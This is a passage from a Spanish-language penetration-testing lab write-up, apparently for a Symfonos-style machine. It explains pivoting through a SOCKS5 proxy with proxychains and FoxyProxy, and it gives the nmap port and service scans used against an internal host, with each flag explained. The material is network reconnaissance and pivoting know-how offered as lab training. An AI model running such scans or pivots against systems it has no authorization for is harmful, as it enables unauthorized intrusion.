
____
en la siguiente imagen ya hemos cambiado a socks en especifico **socks5** el cual debemos especificar en el **proxychains.conf** al final del mismo, dicho archivo se encuentra en la siguiente ruta **/etc/proxychains.conf**.
_____

____
ahora debemos debemos escanear los puertos, pero no es el escaneo habitual. veremos el siguiente comando de nmap.
____
Este comando utiliza `proxychains` para ejecutar `nmap` a través de un proxy y escanear los 500 puertos más comunes en el host `192.168.20.4`, mostrando solo los puertos que están abiertos y filtrando ciertos mensajes de la salida. A continuación, se explica cada parte del comando:

### Comando completo

```bash
proxychains nmap --top-ports 500 --open -T5 -v -n 192.168.20.4 -sT -Pn -oG allports 2>&1 | grep -vE "timeout|OK"
```

### Explicación detallada

1. **`proxychains`**:
    - `proxychains` es una herramienta que permite redirigir el tráfico de red de una aplicación a través de un proxy (por ejemplo, SOCKS4, SOCKS5, HTTP).
    - En este caso, se está utilizando para ejecutar `nmap` a través del proxy configurado en el archivo de configuración de `proxychains`.

2. **`nmap`**:
    - `nmap` es una herramienta de escaneo de red utilizada para descubrir hosts y servicios en una red.

3. **`--top-ports 500`**:
    - Esta opción indica que `nmap` debe escanear los 500 puertos más comunes.

4. **`--open`**:
    - Esta opción hace que `nmap` muestre solo los puertos que están abiertos.

5. **`-T5`**:
    - Esta opción establece el nivel de agresividad del escaneo en el valor máximo (5), lo que significa que `nmap` realizará el escaneo lo más rápido posible.

6. **`-v`**:
    - Esta opción habilita el modo de salida detallada (verbose), proporcionando más información durante el escaneo.

7. **`-n`**:
    - Esta opción indica que `nmap` no debe intentar resolver nombres de host DNS, lo que puede acelerar el escaneo.

8. **`192.168.20.4`**:
    - Es la dirección IP del host que se va a escanear.

9. **`-sT`**:
    - Esta opción especifica un escaneo TCP connect, que es el tipo de escaneo TCP más básico en `nmap`. Se utiliza cuando el usuario no tiene privilegios suficientes para realizar escaneos SYN.

10. **`-Pn`**:
    - Esta opción indica que `nmap` debe suponer que el host está activo, omitiendo el escaneo previo de host discovery (ping).

11. **`-oG allports`**:
    - Esta opción guarda la salida del escaneo en un archivo en formato grepable llamado `allports`.

12. **`2>&1`**:
    - Esta redirección combina la salida estándar (stdout) y la salida de error (stderr) en una sola salida, para que ambas sean procesadas por el siguiente comando en la tubería (pipe).

13. **`| grep -vE "timeout|OK"`**:
    - La tubería (`|`) pasa la salida combinada de `nmap` a `grep`.
    - `grep -vE "timeout|OK"` filtra la salida para excluir líneas que contienen las palabras "timeout" o "OK". 
        - `-v` hace que `grep` excluya líneas coincidentes.
        - `-E` permite el uso de expresiones regulares extendidas.

### Resumen

Este comando escanea los 500 puertos más comunes en el host `192.168.20.4` utilizando `nmap` a través de un proxy configurado por `proxychains`, muestra solo los puertos abiertos, y filtra la salida para excluir mensajes que contengan "timeout" o "OK". La salida detallada del escaneo se guarda en un archivo llamado `allports` en formato grepable.

tenemos los puertos abiertos pero ahora debemos aplicar los script basicos de reconocimiento lo que también cambia puesto que para todos los comandos debemos ocupar proxychains
_____
```shell
proxychains nmap -sT -Pn -sCV -p 21,22,80,139,445 192.168.20.4 -oN targeted 2>&1 | grep -v "OK"
```

los parámetros ya se explicaron el la parte superior. de esa forma podremos saber las versiones y servicios que corren en cada puerto.

por lo que ahora nos debemos ocupar del lado web, puesto que en el navegador no podemos acceder a la dirección ip así como tal, por lo utilizaremos foxyproxy para configurar un proxy por socks5 y poder hacer accesible la ip a nuestro navegador.
____

____
asignamos el tipo de proxy, hostname y el puerto. una vez realizado esto ahora si tenemos acceso a la dirección ip que se encuentra fuera de nuestro rango de red.
____

____
continuación en [[Symfonos 2]].

